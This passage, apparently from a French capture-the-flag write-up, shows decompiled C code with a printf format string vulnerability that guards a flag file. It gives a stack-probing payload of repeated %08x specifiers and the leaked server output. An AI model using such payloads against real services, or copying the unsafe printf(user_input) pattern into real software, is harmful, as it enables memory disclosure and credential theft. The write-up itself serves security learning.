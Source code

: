 ```c
  fgets(user_name,0x78,(FILE *)stdin);
  printf("Bonjour ");
  printf(user_name);

  // saisie du mdp

  puts("\nQuel est votre mot de passe?");
  fgets(user_pass,0x15,(FILE *)stdin);
  sVar3 = strcspn(user_pass,"\n");
  user_pass[sVar3] = '\0';
  puts(&DAT_004950b0);

  // test du mot de passe
  // il doit être égal au mdp random généré ci-dessus

  iVar1 = strcmp(valid_pass,user_pass);
  local_131 = iVar1 == 0;
  if ((bool)local_131) {
    puts(
        "Bonjour Monsieur Dupont. \nComme toujours, nous sommes heureux de faire affaire avec vous."
        );
    puts(&DAT_00495140);
    local_120 = fopen64("flag.txt","rt");
    fgets(local_b8,0x28,local_120);
    puts(local_b8);
    fclose(local_120);
  }

  ...

  return 0;
}
```

Dans l'idée il s'agit bien :
- d'utiliser la format string pour lire le mot de passe généré et stocké dans `valid_pass`
- renvoyer ce mdp pour valider le test
- get the flag and grab a coffee

Pour plus d'infos sur le fonctionnement et l'exploitation d'une format string :

https://www.bases-hacking.org/format-strings.html

### Exploit

Il faut tatonner un peu avec le serveur puis dans gdb pour voir la constitution de la stack et ce que nous allons pouvoir faire avec notre format string ...

```bash
Veuillez décliner votre identité:
AAAAAAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
Bonjour AAAAAAAA.65af06a0.00000000.004532c7.00000000.004c2880.65af2ad8.0041cb7e.015fd420.00000000.00000004.00000000.00495008.00495013.0049502e.00495049.58545a6a.297a3151.363a2563.00000002.0000000b.00000000.00000000.
Quel est votre mot de passe?

Vérification du mot de passe en cours ...
Tentative de connexion non désirée. Changement de l'endpoint en cours...
```
